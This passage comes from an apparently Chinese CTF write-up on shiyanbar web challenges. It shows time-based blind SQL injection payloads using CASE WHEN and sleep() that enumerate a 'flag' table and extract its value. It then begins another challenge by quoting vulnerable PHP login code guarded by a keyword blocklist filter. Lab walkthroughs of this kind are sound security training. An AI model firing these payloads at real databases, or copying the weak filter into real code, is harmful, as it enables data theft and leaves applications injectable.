 3. 利用脚本跑出表段名字 第一个字段名为**client_ip** 第二个字段名为**flag**

4. 获取

   flag

   表段中字段的数量、长度和内容

   ```
   字段数为1
   1.1.1.1' and (select case when (select count(column_name) from information_schema.columns where table_name='flag' and table_schema='web4')=1 then sleep(1) else 0 end ) and '1'='1
   字段名长为4
   1.1.1.1' and (select case when length((select column_name from information_schema.columns where table_name='flag' and table_schema='web4'))=4 then sleep(1) else 0 end ) and '1'='1
   猜测字段名为flag 结果正确
   1.1.1.1' and (select case when substring((select column_name from information_schema.columns where table_name='flag' and table_schema='web4') from 1 for 4)='flag' then sleep(1) else 0 end ) and '1'='1
   先获取内容长度为32  再用脚本跑出flag为cdbf14c9551d5be5612f7bb5d2867853
   1.1.1.1' and (select case when length((select flag from flag))=32 then sleep(1) else 0 end ) and '1'='1
   ```

[![flag](https://isky0t.github.io/images/shiyanbar03flag.png)](https://isky0t.github.io/images/shiyanbar03flag.png)

## 因缺思汀的绕过

> 访问解题链接去访问题目,可以进行答题。根据web题一般解题思路去解答此题。看源码，请求，响应等。提交与题目要求一致的内容即可返回flag。然后提交正确的flag即可得分。web题主要考察SQL注入，XSS等相关知识。涉及方向较多。此题主要涉及源码审计，MySQL相关的知识。

```php
<?php
error_reporting(0);

if (!isset($_POST['uname']) || !isset($_POST['pwd'])) {
	echo '<form action="" method="post">'."<br/>";
	echo '<input name="uname" type="text"/>'."<br/>";
	echo '<input name="pwd" type="text"/>'."<br/>";
	echo '<input type="submit" />'."<br/>";
	echo '</form>'."<br/>";
	echo '<!--source: source.txt-->'."<br/>";
    die;
}

function AttackFilter($StrKey,$StrValue,$ArrReq){  
    if (is_array($StrValue)){
        $StrValue=implode($StrValue);
    }
    if (preg_match("/".$ArrReq."/is",$StrValue)==1){   
        print "水可载舟，亦可赛艇！";
        exit();
    }
}

$filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)";
foreach($_POST as $key=>$value){ 
    AttackFilter($key,$value,$filter);
}

$con = mysql_connect("XXXXXX","XXXXXX","XXXXXX");
if (!$con){
	die('Could not connect: ' . mysql_error());
}
$db="XXXXXX";
mysql_select_db($db, $con);
```